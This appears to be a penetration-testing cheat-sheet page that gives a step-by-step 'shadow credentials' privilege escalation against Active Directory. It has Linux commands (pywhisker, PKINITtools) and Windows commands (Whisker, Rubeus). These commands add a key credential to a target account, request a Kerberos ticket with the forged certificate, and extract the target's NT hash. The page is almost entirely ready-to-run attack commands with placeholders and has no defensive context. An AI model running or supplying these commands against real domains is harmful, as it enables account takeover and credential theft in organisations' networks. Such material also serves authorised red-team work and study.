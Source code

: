 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["AddKeyCredentialLink", "active driectory", "ad", "Windows", "shadow credentials", "whisker", "pywhisker"]
---
```


---
### Privesc #1: Shadow credentials

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-check \[optional\]

<div>

```bash
python3 pywhisker.py --action list -d <DOMAIN> -u <CURRENT_USER> -p <PASSWORD> --dc-ip <DC> -t <TARGET_USER> --use-ldaps
```

</div>

#### 1. Add shadow credentials

<div>

```bash
python3 pywhisker.py --action add -d <DOMAIN> -u <CURRENT_USER> -p <PASSWORD> --dc-ip <DC> -t <TARGET_USER> --use-ldaps
```

</div>

<br>

<div>

```bash
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

</div>

#### 2. Request TGT using PFX file

<div>

```bash
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass <PFX_PASSWORD> <DOMAIN>/<USERNAME> <USERNAME>.ccache -dc-ip <DC>
```

</div>

#### 3. Import ticket

<div>

```bash
export KRB5CCNAME=<USERNAME>.ccache
```

</div>

#### 4. Get NT hash

<div>

```bash
python3 getnthash.py <DOMAIN>/<USERNAME> -key <AS-REP_encryption_key>
```

</div>

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 0. Pre-check \[optional\]

<div>

```powershell
.\Whisker.exe list /domain:<DOMAIN> /target:<TARGET_USER> /dc:<DC>
```

</div>

#### 1. Add shadow credentials

<div>

```powershell
.\Whisker.exe add /domain:<DOMAIN> /target:<TARGET_USER> /dc:<DC> /password:<PASSWORD>
```

</div>

#### 2. Request TGT using PFX file and get NT hash

<div>

```powershell
.\rubeus.exe asktgt /user:<TARGET_USER> /certificate:<BASE64_CERT> /password:<PASSWORD> /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

</div>

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>

{{< /tabcontent >}}

<br>
